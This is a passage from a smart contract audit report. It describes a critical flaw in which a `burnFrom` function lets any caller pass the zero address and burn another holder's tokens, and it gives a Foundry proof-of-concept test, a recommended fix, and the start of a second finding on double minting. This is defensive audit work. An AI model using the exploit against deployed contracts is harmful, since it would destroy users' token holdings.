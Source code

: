 ```
        // - If `by` is not the zero address, it must be either `from`,
        //   or approved to manage the tokens of `from`.
```

An attacker could set `by` as zero or any approved address and burn tokens.

- `burn`: this function calls `_burn` function, in `_burn`:

```solidity
    function _burn(address from, uint256 id, uint256 amount) internal virtual {
        _burn(address(0), from, id, amount);
    }
```

It sets `by` as a zero address (just like the above attack path).

Here is the POC for setting `by` as a zero address.

**POC:**

```solidity
    function testBurn_gotcha_token() public {
        vm.prank(address(endgame));
        gachaToken.mint(owner, 1, 100);
        assertEq(gachaToken.balanceOf(owner, 1), 100);

        vm.prank(user1);
        // gachaToken.burnFrom(by, from, id, amount);
        //@audit by setting `by` as 0, it should be able to burn from any address
        gachaToken.burnFrom(address(0), owner, 1, 100);
        assertEq(gachaToken.balanceOf(owner, 1), 0);
    }
```

## Recommendations

1. Delete `burnFrom`.
2. Modify `burn` as follows:

```solidity
    function burn(address from, uint256 id, uint256 amount) external {
        _burn(msg.sender, from, id, amount);
    }
```

# [C-02] Malicious users can mint the double Guaranteed Mints per RING

## Severity

**Impact:** High

**Likelihood:** High

## Description


[0-1]: Tracking `publicMint` status
[2-2]: Hero list mint tracking
[3-23]: Tracking the number of OG free mints (capacity : 2\***\*20 -1)
[24-63]: Tracking the number of OG paid mints (capacity : 2\*\***40 -1)